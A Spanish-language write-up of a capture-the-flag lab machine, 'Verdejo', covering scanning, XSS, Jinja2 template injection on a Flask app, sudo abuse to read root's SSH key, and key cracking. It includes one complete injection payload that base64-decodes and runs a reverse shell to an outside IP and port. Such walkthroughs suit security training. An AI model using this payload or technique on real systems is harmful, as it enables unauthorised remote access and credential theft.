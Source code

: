 # RESOLUCIÓN DE LA MÁQUINA VERDEJO

Abrimos la máquina y vemos su IP.

![image](https://github.com/user-attachments/assets/459326a7-0e73-4dd2-b07f-c79cb6e67cb5)

Hacemos un nmap para poder ver los puertos que estan abiertos para la IP seleccionada.

![image](https://github.com/user-attachments/assets/00d2ac8a-6093-4074-aede-ea3d5868a86b)

Ahora hacemos un escaneo de los puertos que hemos visto que estan abiertos para saber servicios,versiones...

![image](https://github.com/user-attachments/assets/7c139d4e-6e82-4c70-81ec-2294a43320f1)

Abrimos la web, puerto 80.

![image](https://github.com/user-attachments/assets/163e874b-9f41-45ca-a75a-d1525bf6fc29)

Abrimos el puerto 8089 y nos muestra esto:

![image](https://github.com/user-attachments/assets/0c07a60d-6f09-4a14-8e4a-5a4a33436d3a)

Hacemos xss.

![image](https://github.com/user-attachments/assets/c7442128-d366-4ff7-912b-c799b0f1f802)

Y nos salta el alert, así que ya sabemos que la web es vulnerable a Cross-Site Scripting (XSS).

![image](https://github.com/user-attachments/assets/0ecf16ab-b600-486c-abda-7653fadbad5e)

También es vulnerable a SSTI.

![image](https://github.com/user-attachments/assets/30013e5b-a935-4ead-84a9-b78ccbfd6ba6)

![image](https://github.com/user-attachments/assets/00a80c44-b31a-4119-80ba-93ca1f9ccb5f)

Flask: Es un framework web minimalista para Python que proporciona herramientas para construir aplicaciones web rápidas y eficientes. Flask utiliza Jinja como su motor de plantillas predeterminado y Werkzeug como su biblioteca de manejo de solicitudes HTTP.

Sabiendo que es vulnerable a SSTI intentamos inyectar código para que nos de el id.

Esta es la web para el código que hay que usarm sabiendo que se está usando jinja: 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---basic-injection

![image](https://github.com/user-attachments/assets/ebbc52eb-a7d8-4d4d-bd03-ac1bf198a37a)

Miramos los usuarios que hay, utilizando el /etc/passwd, y vemos solo al usuario verde.

![image](https://github.com/user-attachments/assets/43a2100a-1032-4137-bc8f-d7136aa2ab93)

Hacemos una revershell desde el cuestionario de la web y ganamos acceso.

![image](https://github.com/user-attachments/assets/bfca1e9a-620a-4d35-8e5c-8a675fd5c89f)

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjEwMi80NDQ0IDA+JjE= | base64 -d | bash').read() }}

![image](https://github.com/user-attachments/assets/5f385b87-11c1-4e2c-ae36-7f7ca877193e)

Hacemos sudo -l y vemos esto: 

![image](https://github.com/user-attachments/assets/ccea011a-be39-47d6-be64-cb10fcc209e6)

El comando que vamos a usar nos permite leer el archivo id_rsa, este lee el archivo especificado con privilegios de superusuario, lo codifica en base64 y luego lo decodifica de nuevo, devolviéndolo a su forma original.

![image](https://github.com/user-attachments/assets/368f0d0e-1493-41cf-9458-72a189e32e0c)

Nos copiamos el id_rsa en nuestro equipo y seguimos los siguientes pasos para poder craquear la contraseña.

![image](https://github.com/user-attachments/assets/f4118bda-79c1-4b0b-9f9d-90d3d3e0e08d)

Seguidamente le damos permisos para que el propietario pueda leer y escribir.

![image](https://github.com/user-attachments/assets/14a670d8-d70e-4b01-9063-92ee2019c1ee)

Nos conectamos al servicio ssh como root con las credenciales obtenidas.

![image](https://github.com/user-attachments/assets/a547b572-0a7e-466c-a9be-6c17f4021de0)








